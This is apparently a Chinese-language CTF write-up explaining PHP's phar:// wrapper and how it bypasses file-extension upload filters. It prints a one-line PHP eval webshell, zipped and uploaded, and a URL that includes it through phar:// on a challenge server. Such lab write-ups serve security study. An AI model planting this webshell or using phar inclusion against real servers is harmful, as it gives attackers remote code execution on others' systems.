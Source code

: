 ## phar://

主要是用于在php中对压缩文件格式的读取。

Phar是PHP的归档格式，类似Java的JAR或是.NET的ZIP。Phar文件可以在不需要解压的情况下在PHP中运行。Phar文件可以用于分发PHP代码，就像你分发Python代码时使用的是.pyc或.whl文件。

Phar伪协议是PHP的一个特性，它允许直接从Phar归档中读取文件，而不需要将Phar文件解压。这样可以直接从Phar文件运行PHP脚本，而无需在服务器上物理地提取文件。

如果使用的是 PHP 5.3 或更高版本，那么 .phar 后缀文件是默认开启支持的，你不需要任何其他的安装就可以使用它。而phar://的伪协议，可以将任意后缀名的压缩包（原来是 .phar 或 .zip，注意：PHP > =5.3.0 压缩包需要是zip协议压缩，rar不行 ) 解包，从而可以通过上传压缩包绕过对后缀名的限制，再利用伪协议实现文件包含。

用法就是把一句话木马压缩成zip格式，shell.php -> shell.zip，然后再上传到服务器（后续通过前端页面上传也没有问题，通常服务器不会限制上传 zip 文件），再访问：?filename=phar://…/shell.zip/shell.php



### 法一

直接创建一个一句话木马文件，并将其压缩为zip文件。

shell.php -> shell.zip

```php
<?=eval($_REQUEST['cmd']);?>
```

![image-20250818182810338](./NSSCTF-6.assets/image-20250818182810338.png)

前面测试过，会在后面自动加上php并执行，所以最后文件不用再加

```
http://node5.anna.nssctf.cn:20083/?bingdundun=phar://8438b53b29545499f443027dfcecef76.zip/shell
```
